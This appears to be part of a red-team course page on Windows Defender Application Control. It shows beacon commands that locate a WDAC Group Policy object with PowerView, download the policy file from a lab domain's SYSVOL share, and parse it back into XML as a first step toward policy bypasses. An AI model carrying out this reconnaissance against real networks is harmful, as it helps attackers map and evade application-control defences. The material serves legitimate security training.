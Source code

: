 WDAC is a Windows technology designed to control which drivers and applications are allowed to run on a machine.  It sounds a lot like AppLocker, but with a few key differences.  The most significant of which is that Microsoft recognises WDAC as an [official security boundary](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria).  This means that WDAC is substantially more robust and applicable bypasses are actually fixed (and a CVE often issued to the finder).

The term "WDAC bypass" is used herein, but this is disingenuous since we're never actually bypassing WDAC at a fundamental level.  Instead, we are finding weaknesses in the policy that organisations deploy.

WDAC policies are first defined in XML format - Microsoft ships several base policies which can be found under `C:\Windows\schemas\CodeIntegrity\ExamplePolicies`.  Multiple policies can be merged into a single policy, which is then packaged into a `.p7b` file and pushed out via GPO or another management platform such as Intune.  If you can find the GPO responsible for pushing that policy, you can find where it lives.

```shell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-DomainGPO -Name *WDAC* -Properties GpcFileSysPath

gpcfilesyspath                                                                              
--------------                                                                              
\\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}

beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol (448 bytes)
[*] download of Registry.pol is complete

PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : DeployConfigCIPolicy
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : ConfigCIPolicyFilePath
ValueType   : REG_SZ
ValueLength : 116
ValueData   : \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
```

  

The **ValueData** field contains the location of the WDAC policy itself.  This is usually somewhere like a central file share, so that machines can read the policy in order to apply it.

```shell
beacon> download \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
[*] started download of \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b (2360 bytes)
[*] download of CIPolicy.p7b is complete
```

  

>  If you have filesystem access to a machine that has the WDAC policy applied, you can grab the p7b from `C:\Windows\System32\CodeIntegrity`.

  

[Matt Graeber](https://twitter.com/mattifestation) wrote [CIPolicyParser.ps1](https://gist.github.com/mattifestation/92e545bf1ee5b68eeb71d254cec2f78e), which can reverse this binary format back into XML for easy reading.

```powershell
PS C:\Users\Administrator\Desktop> ipmo C:\Tools\CIPolicyParser.ps1
PS C:\Users\Administrator\Desktop> ConvertTo-CIPolicy -BinaryFilePath .\CIPolicy.p7b -XmlFilePath policy.xml
```

WDAC allows for very granular control when it comes to trusting an application.  The most commonly used ones include:

-   Hash - allows binaries to run based on their hash values.
-   FileName - allows binaries to run based on their original filename.
-   FilePath - allows binaries to run from specific file path locations.
-   Publisher - allows binaries to run that are signed by a particular CA.